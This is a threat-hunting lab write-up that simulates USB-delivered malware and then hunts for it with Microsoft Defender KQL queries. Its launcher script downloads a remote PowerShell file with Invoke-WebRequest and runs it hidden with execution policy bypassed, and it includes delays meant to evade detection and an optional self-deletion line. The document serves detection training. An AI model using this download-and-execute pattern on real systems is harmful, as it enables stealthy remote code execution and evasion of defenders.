 # Threat Event (USB Malware Execution via PowerShell)

**USB Device Triggers Malicious PowerShell Invoke-WebRequest Payload**

---

## Pre-steps:

I. **Created PowerShell simulation scripts to mimic malware behavior:**
   * `usb-mount.ps1` – [GitHub Link](https://github.com/jason-p-nguyen/threat-hunting-projects/blob/main/usb_malware_execution/scripts/usb-mount.ps1)
   * `malicious-usb-launcher.ps1` – [GitHub Link](https://github.com/jason-p-nguyen/threat-hunting-projects/blob/main/usb_malware_execution/scripts/malicious-usb-launcher.ps1)
   * `fake-malware.ps1` – [GitHub Link](https://github.com/jason-p-nguyen/threat-hunting-projects/blob/main/usb_malware_execution/scripts/fake-malware.ps1)
   * `usb-unmount.ps1` – [GitHub Link](https://github.com/jason-p-nguyen/threat-hunting-projects/blob/main/usb_malware_execution/scripts/usb-unmount.ps1)
   * `master-usb-malware-sim.ps1` – 🔗 [GitHub Link](https://github.com/jason-p-nguyen/threat-hunting-projects/blob/main/usb_malware_execution/scripts/master-usb-malware-sim.ps1)

     > Master orchestration script that runs the full scenario end-to-end (mount USB → drop payload → execute → cleanup → unmount).

II. **Simulated USB insertion** using `usb-mount.ps1` to mount a virtual payload directory `E:\Payload`.

III. **Dropped malicious launcher (`malicious-usb-launcher.ps1`) into E:\Payload** to mimic USB-delivered attack content.

IV. **Used `master-usb-malware-sim.ps1`** to automate the full lifecycle from insertion to cleanup.

---

## Steps the "Bad Actor" Took to Create Logs and IoCs:

1. Executed the USB payload (malicious-usb-launcher.ps1):
```powershell
<#
.SYNOPSIS
    Simulates USB-delivered malware using PowerShell.
.DESCRIPTION
    Downloads a fake payload from an external source, waits to mimic stealth, then executes it.
#>

Write-Output "[*] USB device connected. Initializing..."
Start-Sleep -Seconds 5

Write-Output "[*] Downloading external payload to disk..."
Start-Sleep -Seconds 3
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/jason-p-nguyen/malware-sim/main/fake-malware.ps1" -OutFile "C:\Temp\payload.ps1"
Write-Output "[+] Payload saved to C:\Temp\payload.ps1"

Write-Output "[*] Waiting to avoid immediate detection..."
Start-Sleep -Seconds 10

Write-Output "[*] Executing payload using PowerShell..."
Start-Sleep -Seconds 2
Start-Process powershell.exe -ArgumentList "-ExecutionPolicy Bypass -WindowStyle Hidden -File C:\Temp\payload.ps1"

Write-Output "[+] Payload launched. Continuing background operations..."
Start-Sleep -Seconds 5

Write-Output "[*] Cleaning up launcher evidence (simulated)..."
Start-Sleep -Seconds 2
# (Optional) Remove-Item -Path $MyInvocation.MyCommand.Path -Force

Write-Output "[✓] Simulation complete. USB payload execution mimicked."
```
2. **Payload executed silently**, simulating second-stage malware execution.

3. **Cleanup actions performed automatically** via `master-usb-malware-sim.ps1`:

   * Deleted temporary artifacts
   * Unmounted USB using `usb-unmount.ps1`

---

## Tables Used to Detect IoCs:

| **Parameter** | **Description**                                                                                                  |
| ------------- | ---------------------------------------------------------------------------------------------------------------- |
| **Name**      | DeviceFileEvents                                                                                                 |
| **Info**      | [DeviceFileEvents Table](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicefileevents-table) |
| **Purpose**   | Detect file creation/deletion from USB, and downloaded `.ps1` files to temp folders.                             |

| **Parameter** | **Description**                                                                                                        |
| ------------- | ---------------------------------------------------------------------------------------------------------------------- |
| **Name**      | DeviceProcessEvents                                                                                                    |
| **Info**      | [DeviceProcessEvents Table](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceprocessevents-table) |
| **Purpose**   | Detect suspicious PowerShell activity, `-ExecutionPolicy Bypass`, `Invoke-WebRequest`, and script execution.           |

| **Parameter** | **Description**                                                                                                        |
| ------------- | ---------------------------------------------------------------------------------------------------------------------- |
| **Name**      | DeviceNetworkEvents                                                                                                    |
| **Info**      | [DeviceNetworkEvents Table](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table) |
| **Purpose**   | Detect outbound HTTP calls to download remote scripts or payloads.                                                     |

---

## Related Queries:

```kql
// Detect PowerShell execution of scripts after USB insertion
DeviceProcessEvents
| where DeviceName == "fin-w10-wks-8"
| where AccountName == "jnguyen.admin"
| order by Timestamp desc
| project Timestamp, DeviceName, Account = AccountName, FileName, FolderPath, ProcessCommandLine

// Detect file creation or deletion in TEMP or USB paths
DeviceFileEvents
| where DeviceName == "fin-w10-wks-8"
| where InitiatingProcessAccountName == "jnguyen.admin"
| order by Timestamp desc
| project Timestamp, DeviceName, ActionType, FileName, FolderPath, Account = InitiatingProcessAccountName, InitiatingProcessCommandLine

// Detect outbound connections to malicious or external sources via PowerShell
DeviceNetworkEvents
| where DeviceName == "fin-w10-wks-8"
| where InitiatingProcessAccountName == "jnguyen.admin"
| order by Timestamp desc
| project Timestamp, DeviceName, Account = InitiatingProcessAccountName, RemoteIP, RemotePort, RemoteUrl, InitiatingProcessCommandLine
```

---

## Created By:

* **Author Name**: Jason Nguyen
* **Author Contact**: [https://github.com/jason-p-nguyen](https://github.com/jason-p-nguyen)
* **Date**: July 3, 2025

---

## Additional Notes:

* USB-based attacks remain a common method for **initial access** or **insider delivery**, especially in red team exercises and physical breach scenarios.
* PowerShell-based payloads are often used for **stealthy execution**, **fileless attacks**, or **remote payload staging**.
* Consider applying the following mitigations:

  * Disable `Invoke-WebRequest` and `IEX` in user PowerShell sessions
  * Enforce signed scripts only (`AllSigned` execution policy)
  * Monitor for USB mount events and autorun behavior
  * Use device control software to restrict USB access

---

## Revision History:

| **Version** | **Changes**         | **Date**     | **Modified By** |
| ----------- | ------------------- | ------------ | --------------- |
| 1.0         | Initial draft       | July 1, 2025 | Jason Nguyen    |
| 1.1         | Added master script | July 3, 2025 | Jason Nguyen    |

